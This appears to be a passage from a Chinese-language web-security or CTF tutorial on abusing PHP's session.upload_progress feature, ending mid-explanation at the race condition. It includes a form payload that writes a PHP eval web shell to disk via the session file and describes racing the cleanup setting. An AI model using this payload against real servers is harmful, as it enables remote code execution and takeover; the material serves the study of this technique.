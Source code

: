 ![avatar](../images/session%20upload1.png)
假设有这么一个上传表单:
```html
<html>
<head></head>
<body>
    <form action="./upload.php" method="post" enctype="multipart/form-data">
     <input type="hidden" name=<?php echo ini_get('session.upload_progress.name');?> value="<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>" />
     <input type="file" name="file1" value = ""/>
     <input type="file" name="file2" value = ""/>
     <input type="submit" name = "submit" value = "upload"/>
    </form>
</body>
</html>
```
session.upload_progress.name的值为:
```php
<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>
```
如果我们能通过疯狂发包，使得这个 hidden 的 POST 数据能在文件传输没有完成的时候被服务器接收到，那么服务器就会在 session 临时文件中存储 这个文件的上传进度（当然是以序列化的形式显示的）
```php
$_SESSION["upload_progress_<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>"] = array(
     "start_time" => 1234567890,   // The request time
     "content_length" => 57343257, // POST content length
     "bytes_processed" => 453489,  // Amount of bytes received and processed
     "done" => false,              // true when the POST handler has finished, successfully or not
     "files" => array(
              0 => array(
              "field_name" => "file1",       // Name of the <input/> field
              // The following 3 elements equals those in $_FILES
              "name" => "foo.avi",
              "tmp_name" => "/tmp/phpxxxxxx",
              "error" => 0,
              "done" => true,                // True when the POST handler has finished handling this file
             "start_time" => 1234567890,    // When this file has started to be processed
             "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
```
即session文件的内容为一条序列化的数据:
```php
…….;s:26:"<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>"|…….
```
但是还存在一个问题，当 session.upload_progress.cleanup为 On 的时候，$_SESSION 中的这个上传进度信息会在读取完全部的 POST 数据后立刻删除（删除的是 session 文件中的上传进度的部分内容，而不是session ），于是乎这个时候就需要条件竞争